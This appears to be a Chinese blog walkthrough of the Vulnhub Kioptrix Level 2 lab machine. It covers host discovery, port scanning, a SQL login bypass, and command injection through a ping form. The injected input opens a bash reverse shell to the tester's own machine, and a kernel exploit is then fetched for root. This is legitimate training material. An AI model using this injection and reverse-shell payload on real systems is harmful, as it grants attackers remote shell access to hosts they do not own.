```yaml
---
title: Vulnhub-Kioptrix_Level2
date: 2025-2-24 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

### 主机发现

```
netdiscover -i eht0 -r 192.168.137.0/24
```

![image-20250319153745788](./././././././././././Kioptrix%20Level2/image-20250319153745788.png)

### 端口扫描

![image-20250319165136560](./././././././././././Kioptrix%20Level2/image-20250319165136560.png)

将端口分离

```
ports=$(cat nmap-ports.nmap | grep open | awk -F/ '{print $1}' | tr '\n' ',')
```

## 80 端口

尝试万能密码，登录成功

![image-20250319170626895](./././././././././././Kioptrix%20Level2/image-20250319170626895.png)

![image-20250319171308645](./././././././././././Kioptrix%20Level2/image-20250319171308645.png)

缺少了输入框，查看源码是多了一个单引号，bp 抓包拦截返回包，然后修改源码就可以正常显示

![image-20250319171416770](./././././././././././Kioptrix%20Level2/image-20250319171416770.png)

功能是一个 ping 功能

![image-20250319171457384](./././././././././././Kioptrix%20Level2/image-20250319171457384.png)

可以尝试在 ip 后面跟上命令 "；" 的作用是顺序执行；

![image-20250319171556375](./././././././././././Kioptrix%20Level2/image-20250319171556375.png)

可以成功执行，直接在后面进行反弹 shell 即可

```
127.0.0.1;bash -c 'exec bash -i &>/dev/tcp/192.168.137.129/9991 <&1'
```

成功反弹 shell

## 提权

![image-20250319175201492](./././././././././././Kioptrix%20Level2/image-20250319175201492.png)

查看内核，寻找内核提权漏洞

![image-20250319175306220](./././././././././././Kioptrix%20Level2/image-20250319175306220.png)

下载到本地，本地开启 web 服务，靶机连接本机的 web 服务下载 exp

![image-20250319175440036](./././././././././././Kioptrix%20Level2/image-20250319175440036.png)

成功提权